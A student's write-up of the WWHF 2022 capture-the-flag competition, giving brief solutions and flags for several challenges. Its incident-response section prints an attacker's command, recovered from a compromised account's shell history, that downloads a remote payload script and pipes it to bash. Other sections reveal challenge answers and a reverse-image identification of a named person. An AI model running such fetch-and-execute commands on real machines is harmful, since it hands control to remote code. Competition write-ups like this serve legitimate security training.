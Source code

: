 These are my write-ups for the WWHF 2022 CTF run on the MetaCTF platform.
Competition was held on Wed, October 12th 5pm-9pm Thursday, October 13th 10am-6:30pm Friday, October 14th 9am-4pm. 

# What's a CTF?
>In a jeopardy-style CTF (Capture the Flag) competition, teams compete to solve challenges covering a variety of cybersecurity categories and topics. For each challenge, your goal is to find a "flag", which often looks like a *MetaCTF{str1ng_separ4ted_by_und3rscores_like_this}* (this is also the flag for this challenge). There are exceptions.
>You may have to find this flag by analyzing provided materials (a log file, an encrypted message) or breaking into a vulnerable application (an simulated online banking app). You're expected to research and use the internet during the competition to figure out how to solve the challenges.

## Solution
MetaCTF{str1ng_separ4ted_by_und3rscores_like_this}

# Clients Are Always Right!
> We are a company that fully believes that the customer is always right. This is such a core value to our company that we have extended this belief to the clients that access our site! We hope everyone can see how much we care about our clients.
> Have a great day! 

## Solution
Navigating to the hyperlink opens up a username / password prompt. Using the Firefox debugger, we can see that the password is stored within the metadata of the client in Base64 encoding.

![](https://github.com/VCCyberSec/WWHF-2022-Writeup-main/blob/main/images/Pasted%20image%2020221013082934.png)

Using Cyberchef, we are able to easily convert the Base64 text back into cleartext revealing the flag.

![](https://github.com/VCCyberSec/WWHF-2022-Writeup-main/blob/main/images/Pasted%20image%2020221013083517.png)

# Corruption
> Oh no! I tried downloading a picture for my upcoming conference talk but it won't open! Can you see if you can fix it and open it? You can download it here: corrupted.png.

## Solution
Downloaded the file "corrupted.png"
Using the *strings* command against the file and reviewing the header, I noticed that the file is a PDF.  I renamed the file to "corrupted.pdf" and the flag was revealed in the PDF file.

## Flag
MetaCTF{0p3rating_$ystems_1ike_ext3nsions}

# Interactive Protection
> You forgot the password to access your online account at a local bank, but you need to transfer some money ASAP and their support isn't responding. Any way you can access it without a password?

## Solution
Link takes you to a webpage with a username / password prompt. 

# Meet the Cyber Range
> To access the cyber range, click "Range" on the navbar. You should see a tab with a Linux or a Windows machine. Access the url https://metactf.com/range-test from any of the VMs to get the flag.

## Solution
Connect to the Ubuntu VM on the CyberRange Machine and run *curl https://metactf.com/range-test* to examine the VM. Flag will be embedded within the webpage.

## Flag
MetaCTF{W3lcome_to_the_Matrix}

# Incident
> The credentials to the machine have been compromised! We suspect someone used them to log in, but we're not sure what, if anything, the attacker might have done. Can you help?

## Solution
Connect to the Ubuntu VM on the CyberRange Machine. Navigate to the home path of the user by running *cd /* and navigate to the *home* directory on the machine.

There are two directories "meta" and "ubuntu".

``` cmd
meta@ip-10-10-1-102:/home$ ls
meta  ubuntu
meta@ip-10-10-1-102:/home$ cd meta
meta@ip-10-10-1-102:~$ ls -la
total 44
drwxr-xr-x 4 meta meta 4096 Oct 14 17:37 .
drwxr-xr-x 4 root root 4096 Feb 28  2022 ..
-rw------- 1 meta meta  176 Jun 17 13:47 .bash_history
-rw------- 1 meta meta  181 Jun 16 16:56 .bash_history.bak
-rw-r--r-- 1 meta meta  220 Feb 28  2022 .bash_logout
-rw-r--r-- 1 meta meta 3771 Feb 28  2022 .bashrc
drwx------ 2 meta meta 4096 Jun 16 16:53 .cache
-rw------- 1 meta meta   37 Jun 17 04:17 .lesshst
drwxrwxr-x 3 meta meta 4096 Jun 17 13:47 .local
-rw-r--r-- 1 meta meta  807 Feb 28  2022 .profile
-rw------- 1 meta meta  556 Jun 17 04:33 .viminfo

Get flag by running curl command on the .bash_history.bak file.

curl -s https://metaproblems.com/2d23dbe9f546bd3918c166a2f783b31e/payload.sh | bash
```

## Flag
MetaCTF{cyberhazardous_flag_-_handle_with_care}

# Identity Crisis
> Hey there! We found this image on a hacker's hard drive, but we can't figure out who the person in the image is. Can you help us identify the target for future surveillance efforts?

![](../identity_crisis.png)

## Solution
Used Google Reverse Image Search to identify image
https://www.labnol.org/reverse/

## Flag
Igor Shuvalov

# Mail Trouble
> Check out these emails.
One of these is a phishing email with a spoofed FROM address. Can you find it? What email address did the attacker pretend to send an email from?

## Solution
Flag is in the email header. "security@google.com"